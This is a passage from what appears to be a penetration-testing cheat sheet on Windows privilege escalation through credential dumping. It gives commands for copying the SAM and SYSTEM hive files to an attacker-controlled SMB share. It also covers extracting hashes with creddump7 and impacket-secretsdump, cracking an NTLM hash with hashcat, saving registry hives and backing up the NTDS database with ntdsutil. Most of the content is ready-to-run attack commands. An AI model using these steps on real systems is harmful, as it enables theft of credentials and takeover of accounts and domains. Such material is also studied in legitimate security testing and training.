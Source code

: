 ```
5. Once again we can simply use winexe to spawn a shell as the admin user.

### SAM

The Security Account Manager in Windows stores password hashes (SAM). The hashes are encrypted using a key that can be obtained in the SYSTEM file. You can dump the hashes and utilize them using PassTheHash or crack them if you are able to read the SAM and SYSTEM files.

#### SAM/SYSTEM Locations

The SAM and SYSTEM files are located in the `C:\Windows\System32\config` directory. The files are locked while Windows is running.&#x20;

Backups of these files may exist in the `C:\Windows\Repair` or `C:\Windows\System32\config\RegBack` directories.

#### SAM/SYSTEM Privilege Escalation Methodology

1.  Copy the files back to our host:

    ```
    copy C:\Windows\Repair\SAM \\192.168.10.10\tools\
    copy C:\Windows\Repair\SYSTEM \\192.168.10.10\tools\
    ```
2.  Download the latest version of the creddump suite:

    ```
    git clone https://github.com/Neohapsis/creddump7.git
    ```
3.  Run the pwdump tool against the SAM and SYSTEM files to extract the hashes:

    ```
    python2 creddump7/pwdump.py SYSTEM SAM
    ```
4.  Crack the admin user hash using hashcat:

    ```
    hashcat -m 1000 --force a9fdfa038c4b75ebc76dc855dd74f0da /usr/share/wordlists/rockyou.txt
    ```

Alternatively, save SAM, SYSTEM, and SECURITY with registry:

```
reg save hklm\sam c:\SAM
reg save hklm\system c:\SYSTEM
reg save hklm\security c:\SECURITY
```

Alternatively, we can use `impacket-secretsdump`:

```
impacket-secretsdump -sam /root/SAM -security /root/SECURITY -system /root/SYSTEM LOCAL
```

### Dump NTDS Database

#### ndtsutil

The ntdsutil utility can be used to backup the database:

```
ntdsutil "ac in ntds" i "cr fu c:\temp" q q
```

```